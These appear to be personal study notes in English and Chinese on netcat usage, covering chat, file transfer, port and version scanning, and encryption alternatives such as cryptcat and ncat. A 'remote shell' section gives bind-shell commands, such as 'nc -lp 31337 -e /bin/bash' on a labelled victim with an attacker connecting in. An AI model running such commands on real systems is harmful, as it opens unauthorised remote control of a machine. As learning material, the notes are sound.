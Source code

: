 
Use TCP default

### chat
nc -v -lp 22 localhost

### file transfer
server:
    nc -v -lp 31337 localhost < a.txt
    cat a.txt | nc -lp 1337
client:
    nc -v  localhost 31337 > a.txt


sender:
    tar -cf - Pictures | nc -lp 1337
receiver:
    nc 10.1.1.1 1337 | tar -xf -

### port scan
nc -v localhost -z 1-1000
    -z : without sending any data to them, // is it really ? use wireshark to check
        意思就是仅仅是去 ping 去探测目标是否开启指定端口，不进行任何的交互。
        z 参数默认扫描的是 tcp 类型，如果需要扫描 udp，则需要使用一个新参数 u???
nc -v localhost 1-1000
    没有-z的话，每一个结果出来后都需要Ctrl + c ，进行下一个目标端口的开始
nc -v localhost 80

### version scan
nc -v localhost 22  //功能简单，目标明确

同 nmap -v -sV localhost -p 22, 这个会给出OS的类型，信息更多些

### remote shell
victim
    windows:
        nc -Lp 31337 -vv -e cmd.exe  //hack5 说这个-L 会让服务端持续监听，但是 却提示Invalid -L
    Linux:
        nc -lp 31337 -vv -e /bin/bash   //linux上是-l 

攻击端
    nc localhost 31337
上面的通讯是未加密的
cryptcat 是加密版本，但是没有-e选项

https://blog.csdn.net/fageweiketang/article/details/82833193    搜索""加密传输文件""

ncat 中很多参数和 nc 一样，其中可以通过 --alow 参数来指定允许连接的机器，通过 --ssl 进行数据的加密


### 
-u : udp
-n : do not do any DNS





https://www.bilibili.com/video/av36431293/?p=10









